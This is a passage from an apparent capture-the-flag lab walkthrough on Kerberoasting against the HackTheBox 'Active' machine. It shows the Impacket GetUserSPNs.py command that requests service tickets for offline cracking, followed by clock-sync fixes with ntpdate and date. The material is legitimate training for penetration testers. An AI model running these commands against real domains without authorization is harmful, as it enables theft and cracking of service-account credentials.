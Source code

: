 ### Request Service Ticket

Now, use the Impacket tool `GetUserSPNs.py` to query AD for users with SPNs and
for any that are discovered, request the service and obtain the encrypted ticket:

```bash
GetUserSPNs.py -request active.htb/SVC_TGS:$PASS
```

You may get an error related to time offsets:

![](images/Kerberoasting%20Revisited/image006.png)<br><br>

This is because the time sync between the two machines is off.  Check the offset
between the two hosts with `ntpdate`:

![](images/Kerberoasting%20Revisited/image007.png)<br><br>

To fix this, adjust the localhost time to match the remote host's time:

```
# Get remote server time
ntpdate -q active.htb

# Get localhost time
date

# Set localhost time
sudo date --set="07 November 2019 18:26:36"
```

<br>

Now the offset is small and should be good enough to continue:

![](images/Kerberoasting%20Revisited/image008.png)<br><br>

